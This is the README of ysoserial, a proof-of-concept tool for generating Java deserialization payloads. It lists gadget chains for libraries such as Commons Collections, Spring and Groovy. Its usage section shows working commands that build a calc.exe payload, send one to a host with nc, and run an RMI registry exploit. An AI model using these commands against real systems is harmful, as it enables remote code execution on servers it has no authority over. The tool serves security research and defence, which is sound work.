 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload              Authors                                Dependencies                                                                                                                                                                                        
     -------              -------                                ------------                                                                                                                                                                                        
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1                                                                                                                                                                    
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     Clojure              @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsCollections1  @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections2  @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3  @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4  @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1              @frohoff                               groovy:2.3.9                                                                                                                                                                                        
     Hibernate1           @mbechler                                                                                                                                                                                                                                  
     Hibernate2           @mbechler                                                                                                                                                                                                                                  
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRMPClient           @mbechler                                                                                                                                                                                                                                  
     JRMPListener         @mbechler                                                                                                                                                                                                                                  
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21              @frohoff                                                                                                                                                                                                                                   
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1        @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2        @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1             @mbechler                                                                                                                                                                                                                                  
     Myfaces2             @mbechler                                                                                                                                                                                                                                  
     ROME                 @mbechler                              rome:1.0                                                                                                                                                                                            
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1                                                                                                                                      
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                            
     URLDNS               @gebl                                                                                                                                                                                                                                      
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization

